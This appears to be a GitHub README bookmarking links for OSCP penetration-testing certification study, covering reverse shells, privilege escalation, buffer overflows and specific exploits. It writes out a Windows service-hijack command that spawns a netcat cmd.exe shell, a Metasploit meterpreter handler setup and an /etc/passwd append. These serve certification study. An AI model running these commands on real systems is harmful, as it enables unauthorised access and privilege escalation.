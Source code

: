 # OSCP - Journey 
** This repo consists of important links (or URLs) which were bookmarked during my journey of OSCP Certification **

!! Note !!

** Most of the links are considered to be SPOLIERS :P !!!**
                                            

# Reverse and Bind Shell tutorials

https://null-byte.wonderhowto.com/how-to/create-reverse-shell-remotely-execute-root-commands-over-any-open-port-using-netcat-bash-0132658/

http://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet (for getting PHP reverse shell) 

# Different Types of Shells (Like Php, bash, netcat ....)

https://highon.coffee/blog/reverse-shell-cheat-sheet/

# Privilege Escalation 
1. Windows PE

http://www.fuzzysecurity.com/tutorials/16.html

1. sc qc upnphost
2. sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
3. sc config upnphost obj= ".\LocalSystem" password= ""
4. sc qc upnphost
5. net start upnphost
  
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/ 
 
 
2. Linux Kernel 2.6.22 < 3.9 --> Dirty Cow
  
https://www.exploit-db.com/exploits/40839/

https://www.youtube.com/watch?v=iyhbLeOzegM

# Buffer Overflow (BO)

Q) What is buffer-overflow

https://www.youtube.com/watch?v=TsQufuT80uc

    # For Practicing (BO)
  1. Vanilla EIP >>
http://www.primalsecurity.net/0x0-exploit-tutorial-buffer-overflow-vanilla-eip-overwrite-2/

  2. SL Mail >>
https://www.youtube.com/watch?v=Pi51KlEulj4
 
# MD5 Decrypter 
https://hashkiller.co.uk/md5-decrypter.aspx

# For RPC Service 

> use exploit/windows/dcerpc/ms03_026_dcom

https://null-byte.wonderhowto.com/how-to/hack-like-pro-exploit-and-gain-remote-access-pcs-running-windows-xp-0134709/

# Extra Toppings

https://pinboard.in/u:unfo/t:oscp

# LFI _ Practise 

1. Coldfusion 

http://hatriot.github.io/blog/2014/04/02/lfi-to-stager-payload-in-coldfusion/

https://www.slideshare.net/chrisgates/coldfusion-for-penetration-testers

# Using Multihandler
1. msf>use exploit multi/handler
2. msf>set payload windows/meterpreter/reverse_tcp
3. msf>set lhost <local IP>
4. msf>set lport <local port>
5. msf> set ExitOnSession false
6. msf>exploit -j

# append users in /etc/passwd

echo "line:to:add" >> /etc/passwd

# MSF Payloads

https://netsec.ws/?p=331

http://security-geek.in/2016/09/07/msfvenom-cheat-sheet/

# OpenFuck / NT SNT Samba Server / Trans2open

https://kongwenbin.wordpress.com/tag/openfuck/

# Phplite_admin 1.9.3

https://www.youtube.com/watch?v=G1i5oWblx9Q

# ManageEngine Multiple Products Authenticated File Upload

https://www.rapid7.com/db/modules/exploit/multi/http/manageengine_auth_upload

# ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow

https://www.rapid7.com/db/modules/exploit/linux/ftp/proftp_telnet_iac

# Oracle 9i XDB - HTTP PASS Overflow

https://www.exploit-db.com/exploits/16809/

# SMTP & POP3 / AUTH LOGIN 

http://www.suburbancomputer.com/tips_email.htm

https://www.ndchost.com/wiki/mail/test-smtp-auth-telnet


To be Cont.......
  

